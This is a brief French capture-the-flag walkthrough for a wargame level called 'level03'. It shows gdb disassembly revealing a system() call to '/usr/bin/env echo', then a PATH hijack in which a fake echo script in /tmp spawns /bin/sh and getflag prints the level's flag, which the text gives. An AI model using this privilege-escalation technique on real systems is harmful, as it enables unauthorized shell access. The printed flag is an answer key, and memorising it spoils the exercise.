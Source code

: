 En arrivant sur le niveau avec ```ls``` on trouve un executable ```level03```

Avec ```gdb level03``` on peut ```disas main``` et on trouve un appel ```system()```

En utilisant ```x/s <addresse param appel system>``` On voit aue les param sont ```/usr/bin/env echo Exploit me```

On va remplacer le chemin ou il cherche ce echo et faire un echo frauduleux

On va dans ```cd /tmp/``` et on fait notre fake echo avec ```echo -e '#!bin/sh\n/bin/sh' > echo```

On lui donne les drtois exec avec ```chmod +x echo```

Ensuite on va modifier les variables d'env avec ```export PATH=/tmp:$PATH```

Puis on retour la ou est notre executable de base ```cd && ./level03```

Et la ca prend notre fake echo qui lance ```/bin/sh``` on lui donne la commande ```getflag``` pour avoir notre flag = ```qi0maab88jeaj46qoumi7maus```
